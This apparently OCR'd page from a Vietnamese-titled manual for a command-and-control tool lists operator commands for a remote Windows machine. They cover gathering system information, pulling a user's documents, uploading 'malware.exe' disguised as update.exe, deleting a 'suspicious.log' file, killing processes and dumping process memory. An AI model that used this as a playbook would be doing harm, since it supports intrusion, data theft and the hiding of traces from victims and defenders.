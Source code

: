 
## 4. Lệnh và Thao Tác

### 🖥️ System Commands

#### System Information
```
# Basic system info
C2C> sysinfo

# Detailed hardware info
C2C> hwinfo

# Network configuration
C2C> netinfo

# Running processes
C2C> pslist

# Installed software
C2C> software

# Environment variables
C2C> env
```

#### File System Operations
```
# Directory listing
C2C> dir C:\Users\john\Desktop

# Change directory
C2C> cd C:\Users\john

# Download file
C2C> download C:\Users\john\documents\important.docx

# Upload file
C2C> upload malware.exe C:\temp\update.exe

# Delete file
C2C> del C:\temp\suspicious.log

# Create directory
C2C> mkdir C:\temp\backup

# File search
C2C> find *.pdf C:\Users\john\
```

#### Process Management
```
# Kill process
C2C> kill notepad.exe

# Start process
C2C> start calc.exe

# Process details
C2C> psinfo 1234

# Memory dump
C2C> memdump 1234 output.dmp
```